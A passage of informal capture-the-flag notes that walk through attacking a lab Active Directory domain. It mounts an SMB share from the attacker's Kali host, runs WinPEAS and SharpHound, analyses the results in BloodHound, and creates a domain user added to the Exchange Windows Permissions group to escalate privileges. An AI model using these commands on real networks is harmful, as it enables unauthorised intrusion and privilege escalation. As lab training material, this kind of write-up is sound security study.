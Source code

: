 `New-PSDrive -Name rachel -PSProvider FileSystem -Credential $cred -Root \\10.10.14.2\NameofShare (ip of kali box)`
![[Pasted image 20241211210806.png]]
Execute #winpeas
![[Pasted image 20241211210938.png]]
Pull latest version of #bloodhound 
Pre-compiled exes within the repo 
`find . |grep exe`
![[Pasted image 20241211211619.png]]
Copy SharpHound.exe to smb share directory
![[Pasted image 20241211212128.png]]

Run SharpHound

`.\SharpHound.exe -c all`

Before starting Bloodhound.. need to start #neo4j 

`neo4j console`

Execute Bloodhound

`./Bloodhound --no-sandbox`

Use neo4j creds to login

Take bloodhound.zip and drop into bloodhound window

Can run query `Shortest Paths to Kerberoastable Users` (dead end)

Run `Shortest Path from Owned Principals` and discover exchange server

![[Pasted image 20241212181507.png]]
Run nslookup on exchange server:
`nslookup
`>server 10.10.10.161`
`>exch01.htb.local`

![[Pasted image 20241212181730.png]]
Discover different domain `10.10.10.7` however..unreachable by ping.

Looking up `windows account operators group` to determine which groups we cannot add people to.. but if it's not one of those groups we can add a user.

![[Pasted image 20241212182149.png]]

Adding a user to the Exchange Windows Permissions group. 

From initial access shell:

`net user rachel penny /add /domain`

Add this new user to the Exchange Windows Permissions group

`net group "Exchange Windows Permissions" /add rachel`

